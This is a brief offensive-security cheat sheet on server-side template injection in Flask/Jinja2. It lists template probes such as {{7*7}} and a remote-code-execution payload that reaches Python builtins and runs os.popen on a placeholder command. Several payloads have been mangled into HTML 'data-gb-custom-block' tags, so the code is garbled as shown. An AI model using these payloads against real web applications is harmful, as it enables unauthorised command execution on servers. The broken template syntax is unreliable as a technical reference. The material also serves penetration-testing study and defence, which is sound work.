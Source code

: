 ```yaml
---
description: >-
  SSTI (Server Side Templates Injections) occurs when an attacker is able to use
  native template syntax to inject a malicious payload into a template, which is
  then executed server-side.
---
```


# Templates Injections ✖️

There are different **frameworks** that uses **templates**, this guide could help to detect which is and exploit them.

![Methodology from PayloadsAllTheThings](../.gitbook/assets/ssti\_graph.png)

## Flask

Flask is a framework for web applications written in Python and developed from the Werkzeug and Jinja2 tools.

### Syntax SSTI

```
{{7*7}}
{{ varname }}

<div data-gb-custom-block data-tag="if" data-1='1'></div>PRINT<div data-gb-custom-block data-tag="else">NOPRINT</div>
```

### RCE (Remote Code Execution)

```
<div data-gb-custom-block data-tag="for"><div data-gb-custom-block data-tag="if" data-0='warning'>{{x()._module.__builtins__['__import__']('os').popen("COMMAND").read()}}</div></div>
```

To bypass some restrictions take a look at the following resources:

## References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
* h[ttps://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
